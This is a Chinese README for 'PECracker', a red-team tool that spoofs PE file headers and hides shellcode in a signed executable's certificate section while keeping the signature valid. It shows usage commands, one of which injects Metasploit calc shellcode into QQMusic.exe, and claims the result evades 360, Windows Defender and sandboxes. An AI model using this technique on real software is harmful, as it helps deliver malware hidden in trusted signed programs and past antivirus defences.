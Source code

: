 # 前言

项目的定位：红队人员的PE对抗辅助工具，具体的对抗思路，就仰仗各位大佬的脑洞了。也欢迎提issue，丰富工具功能。

(为了更好的免杀性能，后续会酌情开源)

对于PE头的一些变形技术都比较老了，这次的学习与实践主要是某APT样本用了这保持签名有效的技术，并且支持shellcode的隐藏与识别，可以深挖的花样会很多。

利用哈希校验漏洞感染文件同时不影响签名有效性的POC，在21年就已经披露了，公开利用主要是[SigFlip](https://github.com/med0x2e/SigFlip)
这个项目。老POC是一体化的loader，我实现了分离的PE修改工具，定制化程度更高，用起来更方便。后续会持续更新深度的攻防对抗。

后续希望把对于PE文件的利用手法都整合到项目中，因此将项目命名为PECracker。

# 使用方法

目前实现了文件头伪装(暴力不优雅版)和证书区段数据嵌入，后续继续更新

```
.\PECracker.exe
 (
 )\ )      (                   )
(()/((     )\  (      )     ( /(   (  (
 /(_))\  (((_) )(  ( /(  (  )\()) ))\ )(
(_))((_) )\___(()\ )(_)) )\((_)\ /((_|()\
| _ \ __((/ __|((_|(_)_ ((_) |(_|_))  ((_)
|  _/ _| | (__| '_/ _` / _|| / // -_)| '_|
|_| |___| \___|_| \__,_\__||_\_\\___||_|

written by https://github.com/berryalen02/PECracker
Usage:
  PECracker.exe [command]

Available Commands:
  crack       文件头证书区段感染
  help        Help about any command
  replace     文件头替换伪装

Flags:
  -h, --help   help for PECracker.exe
```

文件头替换

```
PECracker.exe replace extract [PE file] [output] [flags]
PECracker.exe replace import [HeaderFile] [target] [flags]
```

证书区段数据嵌入

```
PECracker.exe crack inject [PeFile] [output] [ShellcodeFile] [flags]
```

自定义标注数据

```
.\PECracker.exe crack inject QQMusic.exe test.exe calc.bin --embedData 0xdeadbeefdeadbeef --embedSize 8
 (
 )\ )      (                   )
(()/((     )\  (      )     ( /(   (  (
 /(_))\  (((_) )(  ( /(  (  )\()) ))\ )(
(_))((_) )\___(()\ )(_)) )\((_)\ /((_|()\
| _ \ __((/ __|((_|(_)_ ((_) |(_|_))  ((_)
|  _/ _| | (__| '_/ _` / _|| / // -_)| '_|
|_| |___| \___|_| \__,_\__||_\_\\___||_|

written by https://github.com/berryalen02/PECracker
[*] size of shellcode: 276
[*] PE文件修改成功
```

# 效果

以下测试均采用最简单的msf生成的calc.bin，无混淆

![](./images/PECracker1.gif)
感染PE文件后不影响执行
![](./images/PECracker2.gif)
360和wdf无检出
![](./images/PECracker6.png)
传了几个沙箱
![](./images/PECracker3.png)
![](./images/PECracker4.png)
![](./images/PECracker5.png)

# TODO

- [x] 文件头伪装(暴力替换不优雅版)
- [x] 证书区段数据嵌入
  - [x] 自定义标注数据内容、长度
- [ ] 节表段空闲空间数据隐藏
- [ ] patch(以及自动化的探索与对抗)
- [ ] .......

# Star History

## Star History

<a href="https://star-history.com/#berryalen02/PECracker&Date">
 <picture>
   <source media="(prefers-color-scheme: dark)" srcset="https://api.star-history.com/svg?repos=berryalen02/PECracker&type=Date&theme=dark" />
   <source media="(prefers-color-scheme: light)" srcset="https://api.star-history.com/svg?repos=berryalen02/PECracker&type=Date" />
   <img alt="Star History Chart" src="https://api.star-history.com/svg?repos=berryalen02/PECracker&type=Date" />
 </picture>
</a>

# 免责声明

本文所涉及的任何技术、信息或工具，仅供学习和参考之用。请勿利用本文提供的信息从事任何违法活动或不当行为。任何因使用本文所提供的信息或工具而导致的损失、后果或不良影响，均由使用者个人承担责任，与本文作者无关。作者不对任何因使用本文信息或工具而产生的损失或后果承担任何责任。使用本文所提供的信息或工具即视为同意本免责声明，并承诺遵守相关法律法规和道德规范。

# 参考

https://github.com/med0x2e/SigFlip

https://mp.weixin.qq.com/s/htc8ZTbQ23kq3TEMlkqSfA

